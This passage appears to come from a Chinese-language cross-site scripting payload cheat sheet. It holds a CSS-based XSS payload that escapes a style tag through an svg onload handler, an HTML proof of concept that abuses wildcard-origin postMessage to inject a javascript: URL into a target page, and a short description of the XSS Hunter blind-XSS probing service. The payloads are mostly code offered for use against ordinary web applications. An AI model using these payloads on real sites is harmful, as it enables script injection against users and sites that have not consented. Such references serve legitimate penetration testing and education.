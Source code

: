 ### CSS中的XSS

```html
<!DOCTYPE html>
<html>
<head>
<style>
div  {
    background-image: url("data:image/jpg;base64,<\/style><svg/onload=alert(document.domain)>");
    background-color: #cccccc;
}
</style>
</head>
  <body>
    <div>lol</div>
  </body>
</html>
```

## PostMessage中的XSS

> 如果目标源是通配符*，消息可以发送到任何有子页面引用的域。

```html
<html>
<body>
    <input type=button value="Click Me" id="btn">
</body>

<script>
document.getElementById('btn').onclick = function(e){
    window.poc = window.open('http://www.redacted.com/#login');
    setTimeout(function(){
        window.poc.postMessage(
            {
                "sender": "accounts",
                "url": "javascript:confirm('XSS')",
            },
            '*'
        );
    }, 2000);
}
</script>
</html>
```

## 盲XSS

### XSS猎手

> XSS猎手可以帮助您找到各种类型的跨站脚本漏洞，包括经常被忽略的盲XSS。该服务通过托管专门的XSS探测器实现，一旦触发，会扫描页面并将有关易受攻击页面的信息发送到XSS猎手服务。
